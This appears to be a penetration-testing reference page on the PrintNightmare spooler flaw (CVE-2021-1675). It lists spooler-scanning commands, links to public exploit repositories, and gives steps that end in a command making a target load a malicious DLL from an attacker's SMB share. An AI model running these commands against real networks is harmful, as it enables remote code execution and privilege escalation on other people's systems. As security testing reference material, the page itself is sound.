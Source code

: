 
#### CrackMapExec

* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py)

```
$ cme smb hosts.txt -u snovvcrash -p 'Passw0rd!' -M spooler
```


#### ItWasAllADream

* [https://github.com/byt3bl33d3r/ItWasAllADream](https://github.com/byt3bl33d3r/ItWasAllADream)

```
$ poetry run itwasalladream -d megacorp.local -u snovvcrash -p 'Passw0rd!' 192.168.1.0/24; cat "report_`date +'%Y_%m_%d_%H%M'`"* | grep -P '\d+\.\d+\.\d+\.\d+,Yes'
```



### Exploit


#### C/C++

RCE (fork of the original repo):

* [https://github.com/afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)

LPE:

* [https://github.com/hlldz/CVE-2021-1675-LPE](https://github.com/hlldz/CVE-2021-1675-LPE)


#### Python

RCE:

* [https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)
* [https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py)
* [https://www.hackthebox.eu/blog/windows-protocols-python](https://www.hackthebox.eu/blog/windows-protocols-python)

##### Usage

1. Prepare [an SMB share with anonymous authentication](/pentest/infrastructure/ad/smb-rpc.md#smb-share-with-null-authentication) allowed (`smbserver.py` also works):
2. Generate an evil DLL: a С2 stager / add user to a privileged group ([1](https://github.com/newsoft/adduser), [2](https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp), [3](https://github.com/calebstewart/CVE-2021-1675/tree/main/nightmare-dll), etc.) / invoke a [custom](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) command (see example below).
3. Run the exploit:

```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```
